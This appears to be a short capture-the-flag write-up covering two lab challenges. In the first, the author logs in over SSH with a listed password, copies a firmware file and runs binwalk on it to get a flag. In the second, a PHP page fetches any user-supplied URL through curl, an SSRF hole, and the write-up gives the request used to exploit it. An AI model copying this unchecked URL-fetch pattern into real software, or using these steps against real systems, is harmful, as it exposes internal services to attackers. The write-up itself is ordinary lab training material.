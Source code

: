 ![image](https://hackmd.io/_uploads/S12xN12_a.png)
passowrd:11111111

> ssh admin@192.168.20.1

![image](https://hackmd.io/_uploads/rkNqN13O6.png)

> sudo scp admin@192.168.240.115:/home/admin/ffflag/FileOne.bin /  

![image](https://hackmd.io/_uploads/S1KTB13up.png)

> binwalk FileOne.bin 

![image](https://hackmd.io/_uploads/B1tBUkhdp.png)

### Get FLAG
**FlAG: 0x7FE9E826**

## ssrf
![image](https://hackmd.io/_uploads/r1afK5sup.png)
192.168.240.109:10024
![image](https://hackmd.io/_uploads/SJsEKqjOp.png)

Source Code
```php=
 <?php

if(isset($_GET['url'])) {
    $url = $_GET['url'];

    if(filter_var($url, FILTER_VALIDATE_URL)) {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $result = curl_exec($ch);
        curl_close($ch);

        echo $result;
    } else {
        die("What are you doing?");
    }
} else {
    highlight_file(__FILE__);
} 
```

### ssrf Solution
http://192.168.240.109:10024/?url=/readflag
![image](https://hackmd.io/_uploads/SyKO0qo_6.png)
